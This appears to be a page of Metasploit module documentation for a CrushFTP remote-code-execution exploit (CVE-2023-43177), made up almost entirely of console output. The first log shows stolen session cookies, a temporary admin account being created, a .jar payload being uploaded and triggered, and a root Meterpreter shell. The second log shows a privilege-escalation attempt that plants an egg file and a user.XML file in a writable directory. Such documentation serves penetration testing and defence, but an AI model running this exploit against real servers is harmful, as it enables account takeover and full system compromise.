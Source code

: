 ```
[*] Found 1 session cookies in the session file
[*] Cookie `1711130936989_ZongxaZC0kfML3XvdU3d2RSL6CG76D` is valid session (username: crushadmin)
[*] Checking if user crushadmin is an admin (cookie: 1711130936989_ZongxaZC0kfML3XvdU3d2RSL6CG76D)
[+] It is an admin! Let's create a temporary admin account
[+] Administrator account created: username=998a245fc4, password=28d3804cfd
[*] [do_login] Logging in with username `998a245fc4` and password `28d3804cfd`
[*] Uploading payload .jar file `d204.jar` to /var/tmp/d204.jar
[*] Triggering the payload
[*] Cleanup the temporary admin account
[*] Started bind TCP handler against 192.168.101.96:4444
[*] Sending stage (57971 bytes) to 192.168.101.96
[+] Deleted /var/tmp/d204.jar
[+] Deleted ./WebInterface/Resources/libs/jq-3.6.0_040ed0cbc9-js
[*] Meterpreter session 13 opened (10.4.227.33:63705 -> 192.168.101.96:4444) at 2024-03-22 19:10:03 +0100

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer        : ip-10-10-0-10
OS              : Linux 6.5.0-1014-aws (amd64)
Architecture    : x64
System Language : en
Meterpreter     : java/linux
```


#### With an active non-privileged session (privilege escalation)
```
msf exploit(multi/http/crushftp_rce_cve_2023_43177) > exploit rhosts=192.168.101.96 verbose=true

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking CrushFTP Server
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711131564348_M6LZ3JOkdP3AHww0Xsr8nVdNLVDPOv
[*] Checking if the attack primitive works
[*] Logging out session cookie `1711131564348_M6LZ3JOkdP3AHww0Xsr8nVdNLVDPOv`
[+] The target appears to be vulnerable.
[*] Downloading the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711131566040_JXiaRnA4jAMCIqnwiSbWGxPf7pAzHD
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_4cf0853fb7-js/`
[+] Session file downloaded
[*] Logging out session cookie `1711131566040_JXiaRnA4jAMCIqnwiSbWGxPf7pAzHD`
[*] Looking for the valid sessions
[*] Found 1 session cookies in the session file
[*] Cookie `1711131525923_krJ319nYz6GDz4VXkOfUQjbkHzaG0F` is valid session (username: msfuser)
[*] Checking if user msfuser is an admin (cookie: 1711131525923_krJ319nYz6GDz4VXkOfUQjbkHzaG0F)
[*] Could not find any admin session or the admin account creation failed
[*] Attempting privilege escalation with session cookie {:cookie=>"1711131525923_krJ319nYz6GDz4VXkOfUQjbkHzaG0F", :username=>"msfuser"}
[*] Looking for a directory with write permissions
[+] Found a writable directory: /home/readonly/writable1
[*] Uploading the egg file `e5d3f50f45`
[*] Uploading `user.XML` to /home/readonly/writable1/user.XML
[*] Looking for the egg in the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711131576980_gK0M9IhcvhrhXVrAwRqS1rd8ESJ7ry
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_4cf0853fb7-js/`
[+] Session file downloaded
[*] Session file has not changed yet, skipping
[*] Logging out session cookie `1711131576980_gK0M9IhcvhrhXVrAwRqS1rd8ESJ7ry`
[*] Egg not found, wait 30 seconds and try again... (Ctrl-C to exit)
```